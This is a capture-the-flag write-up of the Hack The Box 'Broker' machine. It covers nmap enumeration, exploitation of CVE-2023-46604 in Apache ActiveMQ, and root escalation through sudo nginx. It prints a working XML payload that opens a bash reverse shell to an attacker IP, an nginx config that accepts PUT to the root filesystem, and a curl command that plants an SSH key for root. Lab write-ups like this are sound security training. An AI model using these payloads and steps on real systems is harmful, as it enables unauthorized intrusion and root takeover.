

---
tags:
  - hack
  - linux
---
# HTB: [Broker](https://app.hackthebox.com/machines/Broker)

> [!tip]- Summary with Spoilers
> This box is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ). After the foothold, `nginx` can be abused via `sudo` to run a malicious web server that accepts `PUT` requests to the root filesystem, which can be used to place an SSH key for shell access as `root`.

## Services

### TCP

- Target: `broker.htb 10.10.11.243`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-broker.htb broker.htb

#### 22/tcp-ssh `OpenSSH` `8.9p1 Ubuntu 3ubuntu0.4` `(Ubuntu Linux; protocol 2.0)`

```text
__ssh-hostkey:
  256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
```

#### 80/tcp-http `nginx` `1.18.0` `(Ubuntu)`

```text
__http-title:
Error 401 Unauthorized
__http-server-header:
nginx/1.18.0 (Ubuntu)
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

```

Guess credentials `admin:admin`:



#### 1883/tcp-mqtt

```text
__mqtt-subscribe:
  Topics and their most recent payloads:
    ActiveMQ/Advisory/Consumer/Topic/#:
    ActiveMQ/Advisory/MasterBroker:
```

#### 5672/tcp-amqp

```text
__amqp-info:
ERROR: AQMP:handshake expected header (1) frame, but was 65
__fingerprint-strings:
  DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
    AMQP
    AMQP
    amqp:decode-error
    7Connection from client using unsupported AMQP attempted
```

#### 8161/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

__http-server-header:
Jetty(9.4.39.v20210325)
```

#### 38231/tcp-tcpwrapped

#### 61613/tcp-stomp `Apache ActiveMQ`

```text
__fingerprint-strings:
  HELP4STOMP:
    ERROR
    content-type:text/plain
    message:Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
    org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
    org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
    org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
    org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
    java.lang.Thread.run(Thread.java:750)
```

#### 61614/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-favicon:
Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
__http-server-header:
Jetty(9.4.39.v20210325)
__http-methods:
  Supported Methods: GET OPTIONS
__http-trane-info:
Problem with XML parsing of /evox/about
__http-title:
Site doesn't have a title.
```

#### 61616/tcp-apachemq `ActiveMQ OpenWire transport`

```text
__fingerprint-strings:
  NULL:
    ActiveMQ
    TcpNoDelayEnabled
    SizePrefixDisabled
    CacheSize
    ProviderName
    ActiveMQ
    StackTraceEnabled
    PlatformDetails
    Java
    CacheEnabled
    TightEncodingEnabled
    MaxFrameSize
    MaxInactivityDuration
    MaxInactivityDurationInitalDelay
    ProviderVersion
    5.15.15
```

## Remote Code Execution

This machine is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ).

First I place the XML payload on my attack machine's web-server:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.21/443 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Then I can trigger the [exploit](https://github.com/evkl1d/CVE-2023-46604):

```console
$ python3 exploit.py -i broker.htb -u http://10.10.14.21/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: broker.htb:61616
[*] XML URL: http://10.10.14.21/poc.xml

[*] Sending packet: 0000006d1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001a687474703a2f2f31302e31302e31342e32312f706f632e786d6c
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.243] 54222
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

## Privilege Escalation

```console
activemq@broker:~$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

I create a malicious config file that will accept PUT requests to the root filesystem:

```text
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1339;
                root /;
                autoindex on;
                dav_methods PUT;
        }
}
```

Than I add my SSH key:

```console
activemq#broker:/tmp$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBofhuG5ISaVIR3ywAJ7ry+rellmpJVJi2aF5lszUGwj e' > authorized_keys
activemq#broker:/tmp$ curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat authorized_keys)"
```

Then I can login via SSH as `root`:

```console
$ ssh root@broker.htb
Warning: Permanently added 'broker.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...

root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```
